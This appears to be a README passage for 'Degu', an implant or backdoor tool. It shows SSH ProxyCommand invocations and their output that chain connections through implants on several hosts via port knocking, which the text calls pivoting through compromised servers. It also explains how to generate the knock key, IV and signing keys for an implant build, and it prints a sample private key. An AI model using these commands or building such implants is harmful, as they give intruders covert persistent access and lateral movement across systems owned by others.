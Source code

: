 

The provided Python script reimplements commands to natively use the SSH ControlPath Unix socket.

This enables efficient server chaining through Degu implants, as shown in the example below:


```bash
 /tmp/degu/client $ ssh  -oProxyCommand="./degussh.py -i 172.17.0.2 " -i keydegussh  -fNM -S ./dock .  
[+] knock to 172.17.0.2:53 bind to :29879
[+] DIRECT->172.17.0.2  	|░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░| 100%
 /tmp/degu/client $ ssh  -oProxyCommand="./degussh.py -i 172.17.0.3 -u ./dock " -i keydegussh  -fNM -S ./dock2 . 
[+] knock to 172.17.0.3:53 using ./dock bind to :2080
[+] ./dock->172.17.0.3  	|░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░| 100%
 /tmp/degu/client $ ssh  -oProxyCommand="./degussh.py -i 172.17.0.4 -u ./dock2 -p 12345 " -i keydegussh  -fNM -S ./dock3 . 
[+] knock to 172.17.0.4:12345 using ./dock2 bind to :43102
[+] ./dock2->172.17.0.4 	|░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░| 100%

```

This creates the following TCP connection chain:

`attacker -> 172.17.0.2:29879 -> 172.17.0.3:2080 -> 172.17.0.4:43102`

By leveraging SSH's ControlPath functionality, the script enables seamless pivoting through multiple compromised servers while maintaining secure communication.


## key management

To build degu first you need to generate new ED25519 key pair.
You can use `./config` utility or the `keygen()` in degu.py library. 

<h3> keys generation </h3>

`./config` generate all secrets for a future degu release in `keys.h`:

-   IV and KNOCK_KEY are used to trigger initial communication with degu and for data ciphering after key exchange.
-   MASTER_PUBKEY is the public part of ed25519 key it is used by degu to verify signature and make secret exchange with client for encryption
-   PRIVATE_KEY is used by client part, you need to pass it in constructor of degu  python object


```python
>>> import degu
>>> myheaderfile = degu.degu.keygen()
>>> print(myheaderfile)
#define IV            { 0x03,0x7b,0xb6,0x59,0x62,0xf0,0xf5,0x56,0xa6,0x68,0xfc,0xa1,0x97,0xb8,0xbd,0x85}
#define KNOCK_KEY     { 0xc9,0xd5,0x52,0x70,0xd1,0x28,0xae,0xcd,0x96,0xda,0xa6,0x5c,0x57,0xf4,0x27,0x92,0xb7,0x65,0x3f,0xd3,0xc5,0x60,0x68,0x05,0x1f,0x71,0xed,0x8d,0xa9,0x3e,0x38,0x58}
#define MASTER_PUBKEY { 0x58,0xe4,0x37,0x0f,0x17,0x5f,0x3f,0xd7,0x07,0x3d,0xd0,0x77,0xbe,0x86,0x9a,0x60,0x34,0x80,0xff,0xae,0xcc,0xf2,0xa1,0x1d,0x60,0xff,0x76,0x44,0xfc,0x26,0x9d,0x06}

// PRIVATE_KEY="f04860177b7bcb3a4b9aaaa052fbd9218d6f0117bb0c9c7a02905809d1a0747ccc5b728445811ed1222ed1e024042c37b2164b494bb77f867d54b63f29cb62e1"

```
you can also directly call the C function keygen in degu.so library with a filename to generate as parameter (you can discard secret1 and secret2 variables that are tests on ECDH)

